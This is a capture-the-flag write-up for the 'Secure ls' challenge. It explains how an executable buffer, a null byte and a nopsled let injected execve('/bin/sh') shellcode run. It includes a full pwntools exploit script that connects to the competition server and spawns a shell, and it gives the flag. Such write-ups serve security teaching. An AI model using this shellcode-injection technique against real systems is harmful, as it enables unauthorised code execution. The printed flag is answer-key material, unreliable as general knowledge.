 # Secure ls

## Challenge

The program is a simple version of the `ls` utility.

We are allowed to pass 0 or 1 options to the program under normal conditions.
These options are restricted to `-a` and `-l`.

The program will then print a list of files/directories in the current working directory.
Depending on our options, this may or may not include dotfiles and may or may not be in a list.

### Mitigations

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

## Solution

Notably, NX is disabled and there are RWX segments, which is unusual for modern binaries.

If we look at the `err` macro, we can see that it simply calls its argument as a function.
The macro is being used to execute code in the buffer at a random offset if the `l` option is
included.

We can pass the `arglen` check in `main` by adding a null byte to our input after our options.
We need to include both options to satisfy `arglen == 3`, as normally the third character would be a
newline, however we cannot include one as this would end our input.

After the null byte, we can include around 256 nop instructions.
This nopsled ensures that the code executed by the macro will eventually reach our shellcode.
After the nopsled, we can write a standard `execve("/bin/sh", NULL, NULL)` shellcode on the buffer.

The program will begin executing code on the nopsled, which will lead it to our shellcode.
This will spawn a shell which we can use to read the flag.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host srv3.momandpopsflags.ca --port 8754 lS
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('lS')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'srv3.momandpopsflags.ca'
port = int(args.PORT or 8754)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX disabled
# PIE:      PIE enabled
# RWX:      Has RWX segments

io = start()

payload = flat({
    0x0: b'-al\0',
    0x100: asm(shellcraft.sh()),
    }, filler=asm(shellcraft.nop()))
io.sendlineafter(b"Enter flags you would like to use with lS: ", payload)

io.interactive()
```

## Flag

```
magpie{sh3llc0d3_b3_sl1pp1n}
```

